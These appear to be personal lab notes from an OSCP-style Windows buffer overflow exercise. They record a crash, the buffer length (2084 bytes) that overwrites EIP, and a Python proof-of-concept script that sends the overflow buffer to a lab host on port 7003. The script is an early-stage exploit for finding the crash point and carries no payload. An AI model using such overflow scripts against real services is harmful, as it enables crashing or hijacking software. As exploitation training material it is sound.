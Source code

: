 The app crashed with EIP 14801029. Notice that EDI and ESI both write B's to those registers.
![eb43da276f7026da3aed283017123e43.png](../../../../_resources/a2ebf4dbc2f648b4851215a1f50cf3e7.png)

Fuzzing with B's didn't work either. I could only send one payload per script. Buffer value 2084 will write EIP 42424242.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 1_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "B" * 2084 # x8b0 2224

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```
